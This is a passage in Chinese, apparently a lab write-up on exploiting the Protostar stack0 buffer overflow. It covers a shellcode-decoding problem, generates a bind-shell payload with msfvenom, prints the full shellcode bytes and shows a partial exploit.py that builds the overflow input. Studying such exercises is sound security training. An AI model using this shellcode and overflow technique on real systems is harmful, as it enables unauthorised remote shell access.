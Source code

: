 而经检验并不是shellcode在内存中的位置(0x0xbffff880)定位不准的问题,应该是由于以下原因造成：

上面msfvenom生成shellcode时，由于加了`-b "\x00"`参数，msfvenom默认用x86/shikata_ga_nai编码器编码，解码过程需要shellcode前面有一些空间（这里是9个字节大小的空间）用来帮助完成shellcode的解码过程

shellcode前面加上9个以上的nop后shellcode顺利的完成了解码，反弹了shell（本地事先用相同的payload+multi/handler监听,如果用`nc -lvp 2222`来监听不能建立shell的连接,用`nc -lvp`只能看到connect，然后就断了）

但是由于protostar系统是个liveCD系统，反弹的shell连上以后马上会断,应该是由于"光盘"特殊的原因

这样看来，并不是msf产生的shellcode就是毋庸置疑完全可靠的，前面竟要9个以上的空间才可支持其解码后顺利运行

用同样的方法在kali上尝试溢出反弹shell,将protostar系统中的stack0复制到kali上

```
scp user@192.168.3.105:/opt/protostar/bin/stack0 /root/桌面

```

用msfvenom重新生成shellcode:

```
msfvenom -p linux/x64/shell/bind_tcp LHOST=192.168.3.106 LPORT=2222 -b "\x00" -f py
-------------------------output:-------------------------
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86_64 from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x53\xdd\xa7\x9c\xa2\x89\xbe"
buf += "\x05\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x39\xf4\xff\x05\xc8\x8b\xe1\x6f\x52\x83\xa8\x99\xea"
buf += "\x1e\xec\xc2\x57\xf9\xa5\x9c\xaa\x27\xf6\x8c\xb5\xb7"
buf += "\xb7\xc6\xc8\xb8\xe6\x0a\x56\x84\xcd\xae\xfa\x86\xbb"
buf += "\x4d\xc5\xb7\x8c\xc4\xad\x8c\xee\x53\x0c\xb7\xae\xc4"
buf += "\x3b\x3f\xae\x4d\xda\x0b\xea\xad\x6b\xe3\x9c\x44\x09"
buf += "\x6f\xa0\x93\xa7\xc1\x28\x4d\xc4\x82\xa8\x99\x5d\x6f"
buf += "\xbe\x05"
--------------------------end----------------------------

```

此时exploit.py如下：

```
---------------------exploit.py------------------------
#/usr/bin/python
import os
import sys

buf =  "bbbb"
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x53\xdd\xa7\x9c\xa2\x89\xbe"
buf += "\x05\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x39\xf4\xff\x05\xc8\x8b\xe1\x6f\x52\x83\xa8\x99\xea"
buf += "\x1e\xec\xc2\x57\xf9\xa5\x9c\xaa\x27\xf6\x8c\xb5\xb7"
buf += "\xb7\xc6\xc8\xb8\xe6\x0a\x56\x84\xcd\xae\xfa\x86\xbb"
buf += "\x4d\xc5\xb7\x8c\xc4\xad\x8c\xee\x53\x0c\xb7\xae\xc4"
buf += "\x3b\x3f\xae\x4d\xda\x0b\xea\xad\x6b\xe3\x9c\x44\x09"
buf += "\x6f\xa0\x93\xa7\xc1\x28\x4d\xc4\x82\xa8\x99\x5d\x6f"
buf += "\xbe\x05"

jmp_esp="\xff\x48\x87\xa0"    #此处jmp_esp暂时不确定
#print jmp_esp
input="a"*80+jmp_esp+buf
```